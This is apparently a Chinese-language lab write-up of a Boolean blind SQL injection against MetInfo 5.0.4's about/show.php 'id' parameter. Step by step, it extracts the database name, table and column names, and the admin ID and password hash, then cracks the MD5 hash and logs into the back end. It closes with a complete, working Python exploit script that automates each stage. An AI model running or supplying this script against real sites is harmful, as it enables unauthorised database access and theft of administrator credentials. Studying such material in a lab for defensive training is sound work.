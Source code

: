 #  metinfo_5.0.4布尔盲注脚本实战

- 靶场用的metinfo_5.0.4

- 靶机ip：192.168.200.148

### 环境准备
- 实现该功能需要用`requests`模块、`string`模块，和注入点的url，并创建一个请求

![image-20240312121228527](https://hecker-typora.oss-cn-shanghai.aliyuncs.com/image-20240312121228527.png)

  

### 确定数据库长度

- 因为数据库的长度可能是1位也有可能是五十位，所以我们需要建立一个循环，让他测试一下到底有多少位，可以根据请求所返回的正文来判断是否正确，经过测试该页面的注入是数字型，所以无需引号闭合（该场景下，如果条件内容是正确会返回正常页面,错误则返回`404.html`。利用该情况可以实现布尔盲注）

![image-20240312123450210](https://hecker-typora.oss-cn-shanghai.aliyuncs.com/image-20240312123450210.png)

### 确定数据库名

- 经过上一步骤，已经得到该数据库名长度为七位，那么分析一下，数据库名可以由大写字母`A~Z`、小写字母`a~z`、数字`0~9`还有一些特殊符号，但是必须由字母开头。这些都是可打印字符，python中有一个`string`模块可以得到所有的可打印字符，那么只需要把这些字符跟数据库名的字符依次比较，即可得到数据库的名字，但是经过测试该页面并不能直接比较字符，所以把字符转为`ASCII`码值进行比较即可

  ![image-20240312124950144](https://hecker-typora.oss-cn-shanghai.aliyuncs.com/image-20240312124950144.png)

### 确定所有表名总长度

- 拿到数据库名后，就可以查询该数据库的所有表名一起是多长，跟查询数据库名长度一样，需要大量的尝试请求。不过这次的所有表名长度可就不止50了，设置为500，尝试一下。

![image-20240312131838354](https://hecker-typora.oss-cn-shanghai.aliyuncs.com/image-20240312131838354.png)

### 确定所有表名

- 知道了所有表名的总长度，那么只需要跟数据库名的方法一样，把注入语句更换一些便可以查询所有表的表名了

![image-20240312134416467](https://hecker-typora.oss-cn-shanghai.aliyuncs.com/image-20240312134416467.png)

- 所有表表名：

  ```
  [+] name of tables is :
  met_admin_column,met_admin_table,met_app,met_column,met_config,met_cv,met_download,met_feedback,met_flash,met_flist,met_img,met_index,met_job,met_label,met_lang,met_link,met_list,met_message,met_news,met_online,met_otherinfo,met_parameter,met_plist,met_product,met_skin_table,met_sms,met_visit_day,met_visit_detail,met_visit_summary
  
  ```

  

### 确定所有列名的长度

- 经过观察，`met_admin_table`这个表很可疑，先查询这个表中列名的长度，也是套用之前查表名长度的代码。但是经过测试，该语句不可以出现单引号，为了解决这个问题我们把表名转为十六进制的方式前面加个0x进行传递。

  ![image-20240312135539240](https://hecker-typora.oss-cn-shanghai.aliyuncs.com/image-20240312135539240.png)

### 确定所有列名

- 根据获取表名的代码套入列名的语句，即可获得列名

![image-20240312140847408](https://hecker-typora.oss-cn-shanghai.aliyuncs.com/image-20240312140847408.png)

- 所有列名

  ```
  [+] name of column is :
  id,admin_type,admin_id,admin_pass,admin_name,admin_sex,admin_tel,admin_mobile,admin_email,admin_qq,admin_msn,admin_taobao,admin_introduction,admin_login,admin_modify_ip,admin_modify_date,admin_register_date,admin_approval_date,admin_ok,admin_op,admin_issueok,admin_group,companyname,companyaddress,companyfax,usertype,checkid,companycode,companywebsite,lang,langok
  ```

  

### 获取账密长度

- 发现`admin_id`与`admin_pass`十分可疑，直接使用表名和列名查询该数据的长度，套用之前的基本格式即可

  ![image-20240312142429929](https://hecker-typora.oss-cn-shanghai.aliyuncs.com/image-20240312142429929.png)

  

### 获取账密内容

- 根据获取账密的长度，并套入获取列名的基本格式，更换查询语句即可得到管理员的账密了

![image-20240312143022404](https://hecker-typora.oss-cn-shanghai.aliyuncs.com/image-20240312143022404.png)

- 账密内容：

  ```
  [+]  admin_name_pass is :admin:e10adc3949ba59abbe56e057f20f883e
  ```

- 看到后面是密文，是32位盲猜是MD5值，直接去解码

  ![image-20240312144520646](https://hecker-typora.oss-cn-shanghai.aliyuncs.com/image-20240312144520646.png)

- 解密完直接登录后台验证，可以看到登录成功

  ![image-20240312144636863](https://hecker-typora.oss-cn-shanghai.aliyuncs.com/image-20240312144636863.png)



### 源码

```python
import requests
import string
url="http://192.168.200.148/MetInfo5.0.4/about/show.php"

req=requests.session()


# 确定数据库名的长度
for i in range(1,51):
    params={
        'lang':  "cn",
        'id' :   f"22 and length((select database()))={i}"
    }
    res=req.get(url=url,params=params)
    if "../404.html" not in res.text:
        dbname_len=i
        break
print(f"[+] The length of dbname is {i}")

# 确定数据库名
c_set=string.printable.strip()
db_name=""
for i in range(1,dbname_len+1):
   for  j in c_set :
        params={
        'lang':  "cn",
        'id':   f"22 and ascii(substr((select database()),{i},1))={ord(j)} "
        }
        res=req.get(url=url,params=params)
        if "../404.html" not in res.text:
            db_name+=j
            break
print(f"[+] name of The Database is {db_name}")


# 确定所有表名的长度
for i in range(1,501):
    params={
        'lang':  "cn",
        'id' :   f"22 and length((select group_concat(table_name) from information_schema.tables where table_schema=database()))={i}"
    }
    res=req.get(url=url,params=params)
    if "../404.html" not in res.text:
        tablename_len=i
        break
print(f"[+] The length of tables name is {i}")


# 确定所有表的表名
c_set=string.printable.strip()
table_name=""
for i in range(1,tablename_len+1):
   for  j in c_set :
        params={
        'lang':  "cn",
        'id':   f"22 and ascii(substr((select group_concat(table_name) from information_schema.tables where table_schema=database()),{i},1))={ord(j)} "
        }
        res=req.get(url=url,params=params)
        if "../404.html" not in res.text:
            print(f"\r[-] name of tables is :{table_name}",end="")
            table_name+=j
            break
print(f"\n\n[+] name of tables is :{table_name}")

# 确定所有表名的长度
for i in range(1,501):
    params={
        'lang':  "cn",
        'id' :   f"22 and length((select group_concat(column_name) from information_schema.columns where table_schema=database() and table_name=0x6d65745f61646d696e5f7461626c65))={i}"
    }
    res=req.get(url=url,params=params)
    if "../404.html" not in res.text:
        columnname_len=i
        break
print(f"[+] The length of columns name is {i}")


# 确定所有表的表名
c_set=string.printable.strip()
column_name=""
for i in range(1,columnname_len+1):
   for  j in c_set :
        params={
        'lang':  "cn",
        'id':   f"22 and ascii(substr((select group_concat(column_name) from information_schema.columns where table_schema=database() and table_name=0x6d65745f61646d696e5f7461626c65),{i},1))={ord(j)} "
        }
        res=req.get(url=url,params=params)
        if "../404.html" not in res.text:
            print(f"\r[-] name of columns is :{column_name}",end="")
            column_name+=j
            break
print(f"\n\n[+] name of column is :{column_name}")

# 查询账密
for i in range(1,501):
    params={
        'lang':  "cn",
        'id' :   f"22 and length((select concat(admin_id,0x3a,admin_pass) from met_admin_table))={i}"
    }
    res=req.get(url=url,params=params)
    if "../404.html" not in res.text:
        admin_len=i
        break
print(f"[+] The length of admin is {i}")


# 确定账密
c_set=string.printable.strip()
admin_name_pass=""
for i in range(1,admin_len+1):
   for  j in c_set :
        params={
        'lang':  "cn",
        'id':   f"22 and ascii(substr((select concat(admin_id,0x3a,admin_pass) from met_admin_table),{i},1))={ord(j)} "
        }
        res=req.get(url=url,params=params)
        if "../404.html" not in res.text:
            print(f"\r[-]  admin_name_pass is :{admin_name_pass}",end="")
            admin_name_pass+=j
            break
print(f"\n\n[+]  admin_name_pass is :{admin_name_pass}")


```


